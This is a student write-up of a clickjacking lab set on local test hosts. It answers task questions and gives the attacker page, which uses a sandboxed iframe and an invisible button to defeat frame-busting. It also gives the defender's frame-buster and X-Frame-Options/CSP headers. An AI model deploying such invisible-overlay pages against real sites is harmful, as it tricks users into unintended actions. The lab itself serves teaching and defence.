



# Clickjacking

准备：添加hosts
```
10.9.0.5 www.cjlab.com
10.9.0.105 www.cjlab-attacker.com
```

## Task 1: Copy that site!

1. With the iframe inserted, what does the attacker’s website look like?



## Task 2: Let’s Get Clickjacking!



2. How does the appearance of the attacker’s site compare to that of the defender’s site?
3. What happens when you click on the “Explore Menu” button on the attacker’s site?
4. Describe an attack scenario in which the style of clickjacking implemented for this Task leads to
undesirable consequences for a victim user.

Answer:

2. 完全一致

3. 跳转到`http://www.cjlab-attacker.com/hacked.html`

   

## Task 3: Bust That Frame!

5. What happens when you navigate to the attacker’s site now?
6. What happens when you click the button?

Answer:

5. 和之前外观一致

6. 跳转到`http://www.cjlab.com/index.html`，不会跳转到`http://www.cjlab-attacker.com/hacked.html`。

## Task 4: Attacker Countermeasure (Bust the Buster)

7. What does the sandbox attribute do? Why does this prevent the frame buster from working?

8. What happens when you navigate to the attacker’s site after updating the iframe to use the sandbox attribute?

9. What happens when you click the button on the attacker’s site?

Answer:

7. 用于限制iframe的内容的行为。
8. 外观与之前一致。
9. 跳转到`http://www.cjlab-attacker.com/hacked.html`。

## Task 5: The Ultimate Bust



10. What is the X-Frame-Options HTTP header attribute, and why is it set to “DENY” to prevent the attack?
11. What is the Content-Security-Policy header attribute, and why is it set to “frame-ancestors 'none' ” to prevent the attack?
12. What happens when you navigate to the attacker’s site after modifying each response header (one at a time)? What do you see when you click the button?

Answer:
10. X-Frame-Options指定了该内容是否可以在 `<frame>`, `<iframe>`, `<embed>` 或 `<object>`中显示。设置为DENY表示无论上述何种情况都不能在加载。
11. `frame-ancestors 'none'`表示无论何种情况都不能作为frame。
12. 无法加载`http://www.cjlab.com`的内容。点击按钮后跳转到`http://www.cjlab-attacker.com/hacked.html`。

## 修改后的代码

### attacker

`/var/www/attacker/attacker.html`

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <title>Attacker</title>
        <meta charset="utf-8"/>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">
        <link href="attacker.css" type="text/css" rel="stylesheet"/>
    </head>
    
    <body>
        <!-- TODO: place your iframe HERE (Task 1) -->
	<iframe src="http://www.cjlab.com/" sandbox></iframe>        
        <!-- The malicious button's html code has already been provided for you. 
            Note that the button code must come after iframe code-->
        <button onclick="window.location.href = 'hacked.html';">Malicious Button</button>
    </body>

</html>

```

`/var/www/attacker/attacker.html`

```css
iframe {
    /* TODO: add iframe css here (Task 1) */
    border: 0;
    position: absolute;
    height: 100%;
    width: 100%;
}

button{
    /* Given button code for size and shape. You do not need to edit this. */
    position: absolute;
    border: none;
    color: white;
    padding: 35px 35px;
    text-align: center;
    font-size: 40px;
    border-radius: 15px;
    /* end of given button code */


    /* TODO: edit/add attributes below for the malicious button (Task 2) */
    /* You will want to change the button's position on the page and 
       make the button transparent */
    opacity: 0%;
    margin-left: 50px;
    margin-top: 350px; 
    color: white;  /* font color */
    background-color: blue;  /* button's background color */

  }

```

### defender
`/var/www/defender/index.html`

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <title>Alice's Cupcakes</title>
        <meta charset="utf-8"/>
        <link href="https://fonts.googleapis.com/css?family=Montserrat:800|Raleway:300" rel="stylesheet">
        <link href="defender.css" type="text/css" rel="stylesheet"/>
    </head>

    <body>
        <header class="header-wrapper">
            <div class="header-contents">
            <div class="col">About Us</div>
            <div class="col">Menu</div>
            <div class="col">Locations</div>
            </div>
        </header>
    

        <div class="Intro">
            <div class="Intro-container">
                <div class="name">Alice's Cupcakes</div>
                <div class="slogan">Your Favorite Local Bakery</div>

            <!-- Here is the benign attacker-targeted button -->
            <button onclick="window.location.href = 'index.html';">Explore Menu</button>

            </div> 
        </div> 


        <footer> 
            <div class="footer-contents">
            <div class="col">Twitter</div>
            <div class="col">Facebook</div>
            <div class="col">Instagram</div>
            <div class="col">Snapchat</div>
            </div>
        </footer > 


    </body>

    <!-- Frame Busting script to prevent clickjacking -->
    <script>
        window.onload = function() {
            makeThisFrameOnTop();
        };

        function makeThisFrameOnTop() {
            // TODO: write a frame-busting function according to
            // instructions (Task 3)
            if (window.top != null && window.top.location != window.location) {
                window.top.location = window.location;
            }
	}

    </script>

</html>
```

`/etc/apache2/sites-available/apache_defender.conf`

```
<VirtualHost *:80>
    DocumentRoot /var/www/defender
    ServerName www.cjlab.com
#    Header set <Header-name> "<value>";
#    Header set Content-Security-Policy " \
#             <directive> '<value>'; \
#           "
    Header set X-Frame-Options "deny"                           
    Header set Content-Security-Policy " \
              frame-ancestors 'none'; \
              "
</VirtualHost>

```

